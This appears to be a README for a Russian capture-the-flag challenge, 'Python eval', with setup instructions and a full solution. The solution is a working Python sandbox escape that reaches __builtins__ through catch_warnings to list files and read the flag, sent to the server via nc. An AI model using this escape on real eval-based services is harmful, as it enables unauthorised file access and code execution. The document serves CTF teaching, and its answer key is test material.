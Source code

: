 Python eval
===========
> -- Змеи... Вечно они всё портят... Они украли мою прелесть и спрятали здесь: (адрес и порт)... Подлые змеи...  
> -- Ходят слухи, что ты говоришь на парселтанге. Помоги забрать прелесть у наглых змей, а я помогу тебе выбраться.  
> -- Здесь всё, что я знаю об этом месте: (исходник(eval.py))  
> -- May the Dragon Force be with you...  

Файлы
-----
1. **eval.py** - Псевдо исходный код, который доступен участникам
2. **159fe327e79316e0f9169fa326fafbd1.txt** - Файл с флагом
3. **blacklist.txt** - Файл с запрещенными словами
4. **server.py** - Исходный код

Запуск
------
Необходимо создать пользователя с правами только на чтение файла с флагом.  
Файл с сервером, жалетельно, положить отдельно от файла с флагом, и запускать его, из папки с флагом.  
```
python3 server.py [-h] [-host HOST] [-p PORT] [-cpu CPU] [-t TIMEOUT]
```
host - Адрес хоста, по умолчанию - socket.gethostbyname(socket.gethostname())  
port - Порт, по умолчанию 1337  
cpu - Количество одновременно запущенных процессов, по умолчанию 16  
timeout - Время жизни одного процесса, по умолчанию 3 секунды  

Решение
-------
1. Научиться получать доступ к \__builtins__  
    ```
    [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
    ```
2. Получить список файлов в папке  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').listdir()" | nc адрес порт
    ```
3. Прочесть флаг  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('имя файла с флагом').read()" | nc адрес порт
    ```

---

[Описание проблемы](https://habrahabr.ru/post/221937/)  
[Источник](https://www.reddit.com/r/Python/comments/hftnp/ask_rpython_recovering_cleared_globals#thing_t1_c1v372r)  
[Еще полезная ссылочка](http://www.floyd.ch/?p=584)
